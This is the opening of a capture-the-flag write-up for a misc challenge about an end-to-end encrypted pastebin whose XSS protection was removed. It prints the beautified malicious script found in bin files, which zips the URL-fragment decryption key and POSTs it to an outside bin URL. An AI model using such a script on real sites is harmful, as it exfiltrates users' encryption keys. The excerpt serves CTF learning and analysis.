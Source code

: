 # misc/private Bin (38 solves/481 points)

> As cybersecurity pioneers, we love to use end-to-end encrypted platforms so that even if we are hacked, the data is safe, right?
>
> Actually, it turns out taking https://github.com/scarsz/bin and ripping out the XSS protection wasn't a good idea (hey, it was messing up sending html code!), as someone reported that they noticed some weird script running in some bin files! I've attached a copy so you can take a look.
>
> In *completely unrelated news*, a certain 3-letter agency has told us that we need to get the contents of a certain paste someone uploaded. Problem is, it's kinda been deleted. Not to worry! While we promised no web logs, we have packet logs! I've already narrowed down the network traffic to only that user. Convenient that they were connected to our network, huh?
>
> P.S. the bin server is still online if you need it. I have kinda forgotten the url though, sorry ¯\\\_(ツ)\_/¯. It's hosted *somewhere* under lac.tf, and I'm sure you can figure it out using the packet capture.
>
> P.P.S. said 3-letter agency starts with an A, ends with an M, and has a C in it.
>
> P.P.P.S. No, there is no admin bot, and no, you do not need to hack the website. This is a MISC challenge, not a web one.

Provided:

- [`sus-script.html`](provided/sus-script.html)
- [`private-bin.pcapng.zip`](provided/private-bin.pcapng.zip)

## Solution

Obviously a good first step is to look at the files we're given :)
I stuck `sus-script.html` through a JavaScript beautifier to make it easier to look at and ended up with [sus-script-pretty.js](sus-script-pretty.js).
Really the only function that matters in it is `start`:

```javascript
async function start() {
    var t = window.location.hash.substr(1);
    extraText = await randtext(), await (zipWriter = new zip.ZipWriter(new zip.BlobWriter("application/zip"), {
        password: "testlactf123"
    })).add("key.txt", new zip.TextReader(t)), await zipWriter.add("secret.txt", new zip.TextReader(extraText));
    let e = await zipWriter.close();
    fetch(binurl, {
        method: "POST",
        headers: new Headers({
            "content-type": "text/plain",
            "actual-content-length": 1e4
        }),
        body: e
    });
    let a = document.getElementById("1");
    a.remove()
}
```

